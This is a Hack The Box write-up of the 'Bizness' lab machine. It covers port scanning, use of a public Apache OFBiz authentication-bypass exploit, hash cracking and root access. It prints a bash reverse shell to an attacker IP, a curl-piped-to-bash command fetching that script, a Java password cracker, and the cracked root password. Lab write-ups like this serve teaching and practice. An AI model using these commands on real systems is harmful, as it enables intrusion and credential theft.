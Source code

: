 ```yaml
---
title: HTB Bizness Writeup
author: Elus1nist
layout: post
date: 14 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/1919b64800f6676d0c0d285a9d664cee.png
---
```

Welcome! This is my writeup of the new Season 4 Easy machine from HTB, Bizness. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.252
```
This gives us the scan results of:

```sh
Nmap scan report for 10.10.11.252
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp open  ssl/http nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `bizness.htb` (add to `/etc/hosts` file)
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating HTTP

Once we add to our hosts file we can visit the HTTP webpage and see the following:

<img src="{{- writeup_images/Bizness/Bizness_Webpage.png | reletive_url}}" >

### Directory Fuzzing

Fuzzig for directories with feroxbuster:
```sh
feroxbuster --url http://bizness.htb --filter-status 404
```
From the fuzzing we discover a directory - `/accounting`

Visiting this page:
<img src='../writeup_images/Bizness/Bizness_Webpage_accounting.png'>

---
---
## Public Exploit - (CVE-2023-51467 and CVE-2023-49070)

After a quick search of the vulnerabilities for OFBiz we stumble across this github page - [OFBiz Authentication Bypass RCE](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

After download ing the exploit I write a simple reverse shell bash script `bash_shell.sh`:
```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.73/9101 0>&1
```
Then on my attacker machine I start a python http server on port 9001 and a nc listener on port 9101.

Running the exploit as follows results in a reverse shell:
```sh
python3 exploit.py --url http://bizness.htb --cmd 'curl http://10.10.16.73:9001/bash_shell.sh | /bin/bash'
```

This gives us the user flag in the `/home/ofbiz` directory

---
---
## Hash Reversing

Once we have the shell we can find and exfiltrate the `c54d0.dat: Derby Database` file.

Extracting important information from file:
```sh
grep c54d0.dat -e 'Password'

./c54d0.dat:21:Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled
```

We need to now see how the application Hashes its passwords and hopefully we can reverse engineer a password cracker:

Using the commens-codec library and rockyou.txt wordlist we can write the following cracker in Java:
```java
import org.apache.commons.codec.binary.Base64;
import java.io.BufferedReader;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.io.IOException;
import java.io.FileReader;
import java.io.*;

public class Main {
    public static void main(String[] args) {

        System.out.println("Starting Attack");
        System.out.flush();
        String filePath = "/usr/share/wordlist/rockyou.txt";

        try (BufferedReader reader = new BufferedReader(new FileReader(filePath))) {
            String line;

            while ((line = reader.readLine()) != null) {
                System.out.println("[*] Trying word: "+ line);
                byte[] bytes = line.getBytes(StandardCharsets.UTF_8);
                String hash = cryptBytes("SHA", "d", bytes);
                System.out.println(hash);
                if (hash.equals("$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I")){
                    System.out.println("[+] Password: " + line);
                    break;
                }
            }
        } catch (IOException ignored) {}
    }

    public static String cryptBytes(String hashType, String salt, byte[] bytes) {
        StringBuilder sb = new StringBuilder();
        sb.append("$").append(hashType).append("$").append(salt).append("$");
        sb.append(getCryptedBytes(hashType, salt, bytes));
        return sb.toString();
    }

    private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance("SHA");
            messagedigest.update("d".getBytes(StandardCharsets.UTF_8));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new RuntimeException("Error while comparing password", e);
        }
    }
}
```
This gives us the cracked password:
`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I : monkeybizness`

---
---
## Privelege Escalation

Once we have a password we can try logging in as `root`:

```
su
monkeybizness
```

BOOM! PWNED.ZIP ACHIEVED!

<img src="https://giffiles.alphacoders.com/206/206739.gif">